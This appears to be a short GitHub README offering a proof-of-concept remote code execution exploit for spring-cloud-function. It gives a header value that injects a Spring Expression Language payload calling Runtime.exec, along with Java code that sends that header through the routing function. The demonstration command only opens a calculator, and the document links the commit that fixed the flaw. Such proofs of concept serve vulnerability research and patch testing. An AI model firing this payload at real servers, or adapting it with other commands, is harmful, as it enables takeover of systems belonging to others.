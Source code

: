 # spring-spel-0day-poc
spring-cloud/spring-cloud-function RCE EXP POC
https://github.com/spring-cloud/spring-cloud-function
header
```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")
```
## Poc
```java
Function function = functionCatalog.lookup(RoutingFunction.FUNCTION_NAME);
Message<String> message = MessageBuilder.withPayload("hello")
 				.setHeader(FunctionProperties.PREFIX + ".routing-expression",
 						"T(java.lang.Runtime).getRuntime().exec(\"open -a calculator.app\")")
 				.build();
function.apply(message);
```

<!--
https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f
-->
